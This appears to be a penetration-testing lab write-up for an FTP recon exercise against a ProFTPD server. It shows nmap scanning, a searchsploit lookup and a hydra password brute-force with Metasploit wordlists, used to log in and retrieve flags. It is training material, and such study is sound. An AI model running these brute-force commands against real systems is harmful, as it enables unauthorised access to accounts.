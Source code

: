 # 🔬FTP

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=518)
>
>  - Target IP: `192.209.45.3`
>  - **Brute-force** of [ProFTP](http://www.proftpd.org/) server
>  - **Enumeration, nmap brute-force and flags** have been already covered in this [FTP Enum lab](../../../assessment-methodologies/3-enumeration/ftp-enum.md)

```bash
nmap -sV 192.209.45.3
```

```
21/tcp open  ftp  ProFTPD 1.3.5a
```

- Check anonymous login and inherent vulnerabilities

```bash
ftp 192.209.45.3
# anonymous login failed
```

```
ls -al /usr/share/nmap/scripts | grep ftp-*
```

![](.gitbook/assets/image-20230319162253807.png)

```bash
searchsploit ProFTPD
# check exploits for the specific version
```

### Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp
```

![](.gitbook/assets/image-20230319162826368.png)

- Try to connect with FTP and found credentials and retrieve every user's flag:

```bash
ftp 192.209.45.3
```

------

